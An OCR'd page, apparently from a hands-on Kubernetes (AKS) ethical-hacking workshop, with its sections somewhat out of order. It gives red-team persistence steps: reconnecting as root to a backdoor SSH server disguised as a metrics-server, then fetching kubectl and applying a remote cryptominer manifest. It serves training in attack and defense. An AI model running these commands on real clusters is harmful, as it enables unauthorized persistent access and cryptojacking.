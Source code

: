 There is a service account associated with the container which has been granted access to all kubernetes APIs
The container is running with a privileged security context which grants it direct access to the host OS
Deploying Miners via the back door
You will need the SSH server IP address that was deployed in the previous attack. You can fetch it again in the hacked app by running:

Use the Red Team terminal tab

SSH_SERVER_IP=$(kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}')
echo $SSH_SERVER_IP
Now login to the SSH server:

ssh root@$SSH_SERVER_IP -p 8080 -o StrictHostKeyChecking=no
The Password is:

Sup3r_S3cr3t_P@ssw0rd
Let's re-download kubectl and create our miner:

apk update
apk add curl
cd /usr/local/bin
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 555 kubectl
export KUBERNETES_SERVICE_HOST=kubernetes.default.svc
export KUBERNETES_SERVICE_PORT=443
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml
Verify that the pod is running:

kubectl get pods -n dev
The output should look something like this:

NAME                           READY   STATUS    RESTARTS   AGE
bitcoinero-6b95755447-cttkz    1/1     Running   0          23s
insecure-app-66dffb686-tp46w   1/1     Running   0          24m
Time for some celebratory pizza! Go ahead and logout of the ssh session.

exit

Ethical Hacking with AKS: Hands-On Attack and Defense Strategies
1 Hr 25 Min Remaining 
Scenario 2 Attack (Persistence)
Backstory
Name: Red
Opportunist
Easy money via crypto-mining
Uses automated scans of web IP space looking for known exploits and vulnerabilities
Motivations
Red notices that public access to the cluster is gone and the cryptominers have stopped reporting in
Red is excited to discover that the SSH server they left behind is still active
Re-establishing a Foothold
Red reconnects to the cluster using the SSH service disguised as a metrics-server on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:
